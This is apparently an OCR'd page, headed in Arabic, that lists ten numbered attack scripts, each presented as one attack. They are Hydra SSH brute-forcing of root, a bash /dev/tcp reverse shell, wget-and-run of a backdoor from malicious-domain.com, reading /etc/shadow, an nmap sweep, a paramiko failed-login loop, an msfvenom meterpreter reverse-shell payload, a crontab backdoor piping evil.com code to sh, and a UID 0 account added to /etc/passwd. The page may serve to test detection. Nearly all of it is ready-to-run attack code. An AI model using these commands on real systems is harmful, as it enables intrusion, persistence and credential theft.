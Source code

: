 
# 🧰 ثانيًا: السكربتات (كل سكربت يمثل هجمة)

## 🔹 1. Brute Force SSH باستخدام Hydra
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://<IP>
```

## 🔹 2. Reverse Shell بسيط (bash)
```bash
bash -i >& /dev/tcp/<attacker_ip>/4444 0>&1
```

## 🔹 3. تحميل وتشغيل ملف مشبوه
```bash
wget http://malicious-domain.com/backdoor.sh -O /tmp/x && bash /tmp/x
```

## 🔹 4. تنفيذ أوامر بصلاحيات غير مصرح بها
```bash
sudo cat /etc/shadow
```

## 🔹 5. تشغيل nmap داخل الشبكة (كشف نشاط مشبوه)
```bash
nmap -sS 192.168.1.0/24
```

## 🔹 6. تسجيل دخول متكرر فاشل (بايثون)
```python
import paramiko
ip = "target_ip"
for i in range(10):
    try:
        ssh = paramiko.SSHClient()
        ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
        ssh.connect(ip, username="root", password="wrongpass")
    except:
        pass
```

## 🔹 7. Meterpreter Payload (باستخدام msfvenom)
```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f elf > shell.elf
```

## 🔹 8. إدخال cronjob خبيث (backdoor)
```bash
echo "* * * * * root /bin/bash -c 'wget http://evil.com/x.sh -O - | sh'" >> /etc/crontab
```

## 🔹 9. محاولة تعديل /etc/passwd
```bash
echo 'maluser:x:0:0:root:/root:/bin/bash' >> /etc/passwd
```

## 🔹 10. DNS tunneling أو اتصال لخادم مشبوه
```bash
dig @8.8.8.8 evil-command.example.com
```
